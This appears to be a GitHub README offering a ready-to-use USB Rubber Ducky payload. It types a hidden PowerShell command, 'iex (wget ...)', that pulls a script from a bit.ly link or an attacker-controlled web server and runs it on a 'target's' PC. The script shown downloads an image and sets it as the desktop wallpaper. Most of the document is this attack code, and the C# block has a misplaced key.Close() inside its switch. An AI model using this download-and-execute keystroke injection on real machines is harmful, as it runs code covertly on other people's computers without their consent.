 Pre-written and execution-ready code:

If you do not have access to a web server and want to get this running, here is pre-uploaded code. The bitlink points to [this gist](https://gist.github.com/judge2020/034d6201d6b24f079e0d692bea3e92b0) containing the PS code, and the image is hosted on github directly.

```
SLEEP 600
GUI r
DELAY 150
STRING powershell -windowstyle hidden iex (wget http://bit.ly/2f1uwGD)
ENTER
```


GET THE CODE SNIPS HERE:

http://lostserver.com/static/rubberduckcode.txt

It will set the background image on a targets pc to whatever jpg you want - i recommend mylittleponys :) 

Regards Keld Norman@DK

Write this code to your Rubber Ducky payload file using the encoder, the wget is an alias that exist in powershell already: 
---------------------------------------------------------------------
```
SLEEP 600
GUI r
DELAY 150
STRING powershell -windowstyle hidden iex (wget http://your-website.com/powershellscript.ps)
ENTER
```
The Powershell script on your webserver (http://your-website.com/powershellscript.ps):
---------------------------------------------------------------------
```
(new-object System.Net.WebClient).DownloadFile('http://your-website.com/mylittlepony.jpg',"$Env:Temp\\b.jpg");
Add-Type @"
using System;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace Wallpaper
{
 public enum Style : int
{
    Tile, Center, Stretch, NoChange
 }
 public class Setter {
  public const int SetDesktopWallpaper = 20;
  public const int UpdateIniFile = 0x01;
  public const int SendWinIniChange = 0x02;
  [DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
  private static extern int SystemParametersInfo (int uAction, int uParam, string lpvParam, int fuWinIni);
  public static void SetWallpaper ( string path, Wallpaper.Style style ) {
     SystemParametersInfo( SetDesktopWallpaper, 0, path, UpdateIniFile | SendWinIniChange );
     RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\\\Desktop", true);
     switch( style )
     {
        case Style.Stretch :
           key.SetValue(@"WallpaperStyle", "2") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Center :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Tile :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "1") ;
           break;
        case Style.NoChange :
           break;
     
     key.Close();
      }
    }
}
"@
[Wallpaper.Setter]::SetWallpaper("$Env:Temp\b.jpg" , 2 )
```

